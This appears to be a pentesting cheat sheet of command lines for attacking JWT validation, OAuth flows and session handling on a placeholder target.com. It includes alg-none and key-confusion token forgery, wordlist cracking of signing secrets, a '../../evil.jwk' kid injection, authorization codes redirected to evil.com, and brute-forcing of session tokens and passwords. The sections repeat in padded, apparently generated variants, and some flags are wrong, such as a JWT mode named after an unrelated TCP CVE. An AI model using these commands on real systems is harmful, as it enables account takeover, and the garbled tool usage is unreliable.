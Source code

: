 ## 5.1 JWT
    jwt_tool eyJhbGci...
    jwt_tool eyJhbGci... --exploit -X a -pc name -pv admin
    crackjwt -t eyJhbGci... -w rockyou.txt
    crackjwt -t eyJhbGci... -w wordlist.txt -a HS256
    jwt-hack -t token.jwt -m all -o results.txt
    ------
    jwt_tool eyJhbGci... --exploit -X k -kc "" -pc admin -pv true
    jwt_tool eyJhbGci... --exploit -X n -i
    jwt_tool eyJhbGci... --exploit -X s -hs none
    crackjwt -t eyJhbGci... -w /usr/share/wordlists/rockyou.txt -a HS256,RS256 -v
    crackjwt -t eyJhbGci... -k $(cat private.key) -a RS256 -m verify
    jwt-hack -t token.jwt -m all -o results_full.txt -d /usr/share/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt
    jwt-hack -t token.jwt -m alg none -s ""
    jwt-hack -t token.jwt -m kid inject -p '{"kid": "../../evil.jwk"}'
    ------
    jwt_tool eyJhbGci... --exploit -X k -kc " " -pc admin -pv " "
    jwt_tool eyJhbGci... --exploit -X n -i -is none
    jwt_tool eyJhbGci... --exploit -X s -hs HS256 -k ""
    crackjwt -t eyJhbGci... -w /usr/share/wordlists/rockyou.txt -a HS256,RS256,ES256 -v -j 8
    crackjwt -t eyJhbGci... -k $(cat public.key) -a RS256 -m verify -p
    jwt-hack -t token.jwt -m all -o results_very_full.txt -d /usr/share/seclists/Passwords/Common-Credentials/probable-v2-top15.txt -delay 1
    jwt-hack -t token.jwt -m cve-2019-11477 -s '{"alg":"none"}'
    jwt-hack -t token.jwt -m jwk -j $(cat evil.jwk)

## 5.2 OAuth
    oauth2test -u https://target.com/oauth -c client_id -r redirect_uri
    burp-oauth -c config.json -p 8080
    ------
    oauth2test -u https://target.com/oauth/authorize -c client_id -r http://evil.com/callback -s invalid_scope
    oauth2test -u https://target.com/oauth/token -g authorization_code -d "client_id=...&client_secret=...&grant_type=authorization_code&code=..." -m POST
    burp-oauth -c config_full.json -p 8080 -v
    burp-oauth -c implicit_grant.json -p 8081
    ------
    oauth2test -u https://target.com/oauth/authorize -c client_id -r http://evil.com/callback -s openid profile email address -response_type code id_token
    oauth2test -u https://target.com/oauth/token -g authorization_code -d "client_id=...&client_secret=...&grant_type=authorization_code&code=...&redirect_uri=http://evil.com/callback" -m POST -H "Content-Type: application/x-www-form-urlencoded"
    burp-oauth -c config_extensive.json -p 8080 -v -debug
    burp-oauth -c implicit_grant_full.json -p 8081 -intercept

## 5.3 Session Management
    session-fuzz -u https://target.com/login -c cookies.txt -p params.txt
    session-bruteforcer -u https://target.com -t tokens.txt
    ------
    session-fuzz -u https://target.com/login -c cookies.txt -p /usr/share/seclists/Fuzzing/HTTP-Methods-and-More/HTTP-Methods.txt -m PUT,DELETE
    session-fuzz -u https://target.com/change_password -c session_cookie -d "old_password=test&new_password=FUZZ&confirm_password=FUZZ" -w /usr/share/seclists/Passwords/Common-Credentials/top-passwords.txt
    session-bruteforcer -u https://target.com/api/session -H "X-Session-Token: FUZZ" -t valid_tokens.txt -r "valid"
    ------
    session-fuzz -u https://target.com/login -c cookies.txt -p /usr/share/seclists/Fuzzing/HTTP-Methods-and-More/all.txt -m GET,POST,PUT,DELETE,OPTIONS,TRACE
